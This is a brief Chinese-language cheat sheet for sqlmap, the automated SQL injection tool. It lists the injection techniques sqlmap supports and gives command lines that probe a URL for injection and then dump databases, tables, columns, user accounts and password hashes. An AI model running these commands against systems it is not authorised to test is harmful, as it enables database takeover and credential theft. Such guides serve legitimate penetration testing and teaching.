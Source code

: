 # sqlmap

- https://github.com/sqlmapproject/sqlmap
- https://sqlmap.org

自动 SQL 注入和数据库接管工具

支持的 SQL 注入技术：

1. 布尔盲注
2. 时间盲注
3. 错误注入
4. UNION查询注入
5. 堆叠查询
6. 带外注入

### sql注入 - MySQL

```shell
# 直连数据库 -- 知道账号密码的情况下
python sqlmap.py -d "mysql://root:root@127.0.0.1:3306/demo" -f --banner --users

# 未知账号密码的情况下，可以用本地api接口地址来测试 (含有sql注入的接口  sql注入示例: WHERE id=1 and 1=1 )
# 判断是否存在注入
python sqlmap.py -u "http://url地址" --batch --banner
# 获取当前用户下的所有数据库
python sqlmap.py -u "http://url地址" --dbs
# 获取指定库的表名
python sqlmap.py -u "http://url地址" -D 库名 --tables
# 获取指定库+表名下的字段
python sqlmap.py -u "http://url地址" -D 库名 -T 表名 --columns
# 获取数据库账号
python sqlmap.py -u "http://url地址" --users
# 获取数据库密码
python sqlmap.py -u "http://url地址" --passwords
```
